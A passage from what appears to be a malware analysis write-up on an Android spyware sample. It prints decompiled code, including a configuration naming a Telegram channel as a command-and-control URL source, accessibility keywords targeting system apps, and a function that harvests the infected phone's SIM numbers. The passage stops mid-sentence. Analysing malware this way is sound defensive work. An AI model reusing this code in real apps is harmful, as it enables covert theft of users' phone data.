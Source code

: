 ```java
        apis = asList;
        apiSources = Constants$$ExternalSyntheticBackport1.m(new Map.Entry[]{Constants$$ExternalSyntheticBackport0.m(0, new StringApiUrlSource(asList)), Constants$$ExternalSyntheticBackport0.m(1, new ExternalMnemonicResourceApiUrlSource("https://t.me/xxtetammi1k", "🖤🖤🖤", "🖤🖤🖤"))});
        accessibilityCompressKeywords = Constants$$ExternalSyntheticBackport1.m(new Map.Entry[]{Constants$$ExternalSyntheticBackport0.m("quicksteplauncher", "qs"), Constants$$ExternalSyntheticBackport0.m("uioverrides", "uo"), Constants$$ExternalSyntheticBackport0.m("systemui", "su"), Constants$$ExternalSyntheticBackport0.m("android", "a"), Constants$$ExternalSyntheticBackport0.m("widget", "w"), Constants$$ExternalSyntheticBackport0.m("miui", "m"), Constants$$ExternalSyntheticBackport0.m("xiaomi", "x"), Constants$$ExternalSyntheticBackport0.m("launcher", "l"), Constants$$ExternalSyntheticBackport0.m("securitycenter", "sc"), Constants$$ExternalSyntheticBackport0.m("settings", "st"), Constants$$ExternalSyntheticBackport0.m("com", "c")});
    }
```

#### 8- Phone numbers grabber (Changed)

Same functionality but a different implementation for grabbing phone numbers from the infected device

```java
    public static String[] getTelephonyInfo(Context context) {
        ArrayList<SubscriptionModel> arrayList = new ArrayList<SubscriptionModel>() { // from class: org.securitypolicies.setup.utilities.UtilGlobal.2
        };
        ArrayList<String> arrayList2 = new ArrayList<String>() { // from class: org.securitypolicies.setup.utilities.UtilGlobal.3
        };
        try {
            List<SubscriptionInfo> activeSubscriptionInfoList = SubscriptionManager.from(context).getActiveSubscriptionInfoList();
            if (activeSubscriptionInfoList != null) {
                for (SubscriptionInfo subscriptionInfo : activeSubscriptionInfoList) {
                    arrayList.add(new SubscriptionModel(subscriptionInfo));
                }
            }
        } catch (SecurityException e) {
            Log("getTelephonyInfo", "Exception thrown");
            e.printStackTrace();
        }
        for (SubscriptionModel subscriptionModel : arrayList) {
            if (subscriptionModel.phone != null && !subscriptionModel.phone.isEmpty()) {
                arrayList2.add(subscriptionModel.phone);
            }
        }
        return (String[]) arrayList2.toArray(new String[0]);
    }
```

The old code is still there tho :
